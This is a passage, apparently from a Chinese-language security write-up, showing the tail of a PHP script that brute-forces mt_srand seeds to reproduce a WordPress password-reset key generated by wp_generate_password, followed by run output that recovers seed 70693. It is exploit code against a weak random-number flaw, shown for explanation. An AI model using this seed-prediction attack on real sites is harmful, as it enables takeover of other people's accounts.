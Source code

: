 ``` php
                $seed = BUGGY ? ($x << 1) + 1 : $x; 
  
                mt_srand($seed);
  
                $testkey = wp_generate_password(20,false);
  
                if($testkey==$resetkey) { echo "o\n"; return $seed; }
  

  
                if(!($x % 10000)) echo $x / 10000;
  
        }
  
        echo "\n";
  
        return false;
  
}
  
?>
  
```
  
运行结果如下：
  
```
  
php5>php rand.php
  
M8pzpjwCrvVt3oobAaOr
  
0123456789101112131415161718192021222324252627282930313233343536373839404142434
  
445464748495051525354555657585960616263646566676869
  
7071727374757677787980818283848586878889909192939495969798991001011021031041051
  
061071081091101111121131141151161171181191201211221
  
2312412512612712812913013113213313413513613713813914014114214314414514614714814
  
915015115215315415515615715815916016116216316416516
  
6167168169170171172173174175176177178179180181182183184185186187188189190191192
  
193194195196197198199200201202203204205206207208209
  
2102112122132142152162172182192202212222232242252262272282292302312322332342352
  
362372382392402412422432442452462472482492502512522
  
..............01062110622106231062410625106261062710628106291063010631106321063
  
3o
  
70693
  
pjwCrvVt3oobAaOr
  
```
  